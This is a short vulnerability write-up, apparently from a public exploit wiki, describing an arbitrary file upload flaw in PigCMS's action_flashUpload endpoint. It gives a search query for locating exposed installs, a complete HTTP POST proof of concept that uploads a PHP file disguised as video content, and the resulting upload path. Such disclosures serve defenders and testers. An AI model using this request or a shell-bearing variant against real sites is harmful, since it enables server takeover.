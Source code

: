 # PigCMS action_flashUpload any file upload vulnerability

## Vulnerability Description

There is a vulnerability to upload any file in the PigCMS action_flashUpload method. The attacker can upload any file to obtain server permissions through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">pigcms</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app.name="PigCMS"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691722982834-8391fb00-7582-4fc7-95c5-2ebb2c4dcde6.png)

Verify POC

```php
POST /cms/manage/admin.php?m=manage&c=background&a=action_flashUpload HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----aaa

------aaa
Content-Disposition: form-data; name="filePath"; filename="test.php"
Content-Type: video/x-flv

<?php phpinfo();?>
------aaa
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691723050483-3c961b57-f018-46c5-a6e0-db9af809d26f.png)

```php
/cms/upload/images/2023/08/11/1691722887xXbx.php
```